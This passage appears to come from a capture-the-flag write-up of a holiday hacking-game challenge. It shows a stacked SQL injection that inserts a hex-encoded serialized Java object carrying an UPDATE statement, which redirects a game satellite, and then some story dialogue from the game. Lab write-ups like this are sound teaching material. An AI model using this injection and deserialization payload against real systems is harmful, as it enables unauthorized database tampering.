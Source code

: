 Now that we have the exploit, we can serialise it rather than our deserialized object, and then send the exploit to the Satellite:

`; INSERT INTO satellite_query (object) VALUES (UNHEX("aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174002b55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031"))`

### Check the pointing_mode

Nothing seems to happen, but if we fetch the pointing_mode, we can see that it is now set to point at the sun rather than the Earth. Let's go back into the game to see if anything has changed.

## Response
!!! quote "Wombley Cube"
    A... missile... aimed for Santa's sleigh? I had no idea...<br/>
    I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!
    Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.<br/>
    I'll help you bring Jack to justice...<br/>
    But my mission to ensure Santa never again compromises the holidays is still in progress.<br/>
    It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest.<br/>
    Use the door to the right to return to the resort lobby and see what happened!<br/>
    Don't worry, I'll meet you there... trust me.<br/>

<video controls>
    <source src="../../img/misc/missile_fired.mp4" type="video/mp4">
</video>

## Java code

The Java code I used for this objective is [saved here](../img/misc/DeserializeExample.java)